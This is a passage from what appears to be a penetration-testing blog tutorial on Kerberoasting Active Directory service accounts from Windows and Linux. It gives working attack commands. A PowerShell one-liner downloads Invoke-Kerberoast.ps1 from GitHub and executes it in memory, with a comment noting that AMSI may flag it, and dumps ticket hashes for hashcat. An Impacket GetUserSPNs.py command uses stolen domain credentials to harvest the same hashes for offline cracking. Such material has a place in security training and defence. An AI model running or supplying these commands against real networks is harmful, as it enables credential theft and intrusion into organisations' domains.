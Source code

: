 

The final script I will talk about in the Windows Section is `Invoke-Kerberoast.ps1` which isn't nearly as powerful as `Rubeus` or `Powerview` hence why I will not split it up into Enumeration/Exploit like previous sections. 

`Invoke-Kerberoast.ps1`. can be Invoked and executed using the below `one-liner`

```powershell
PS C:\Temp > IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1");Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast

#Download Invoke-Kerberoast.ps1 into Memory (AMSI May Flag)
IEX(new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")

#Invoke-Kerberoast and Output to Hashcat Format

Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```



### [](#header-3)From Linux



Kerberoasting from Linux is a little but different as we are most likely not authenticated to the domain in anyway so will have to pass a stolen Kerberos ticket through for authentication or domain credentials.  

In my experience I have found Kerberoasting from a **Domain-Joined Machine** is way way easier and typically hassle free however sometime we don't have the option. 



To enumerate Users with `SPN` value set we can use one of `Impackets` great scripts `GetUserSPN's.py` 

*https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py*

If you haven't heard of Impacket by now it's a collection of python scripts for attacking Windows and has some seriously dangerous scripts in it's repo. 

Armed with `GetUserSPNs.py` and a already pwned `Domain Users` credentials we can simply run the below

```python
m0chan@kali:/scripts/> python GetUserSPNs.py m0chanAD/pwneduser:pwnedcreds -outputfile hashes.kerberoast
```



This outputted file can now be sent to Hashcat to crack, there are alternative means to cracking on Linux but in all my time Hacking I have never once had a good time trying to crack on Linux. I find Hashcat on a Windows machine with NVIDIA cards is the best route (personally).


